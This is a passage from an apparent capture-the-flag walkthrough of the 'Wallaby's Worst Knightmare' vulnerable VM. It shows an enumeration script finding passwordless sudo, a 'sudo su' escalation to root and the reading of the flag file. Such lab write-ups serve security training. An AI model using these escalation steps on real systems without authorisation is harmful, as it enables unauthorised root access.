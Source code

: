 ## Step 5 - Privilege Escalation Part 3

Running LSE again, it revealed that ```wallaby``` could use sudo without a password.

```
[!] sud000 Can we sudo without a password?................................. yes!
---
uid=0(root) gid=0(root) groups=0(root)
```

At this point, it was as simple as a ```sudo su```.

```
wallaby@ubuntu:/tmp/lse$ sudo su
sudo su
whoami
root
```

Now, all I had to do was read the flag.

```
cd /root
ls
backups
check_level.sh
flag.txt
cat flag.txt
###CONGRATULATIONS###

You beat part 1 of 2 in the "Wallaby's Worst Knightmare" series of vms!!!!

This was my first vulnerable machine/CTF ever!  I hope you guys enjoyed playing it as much as I enjoyed making it!

Come to IRC and contact me if you find any errors or interesting ways to root, I'd love to hear about it.

Thanks guys!
-Waldo
```
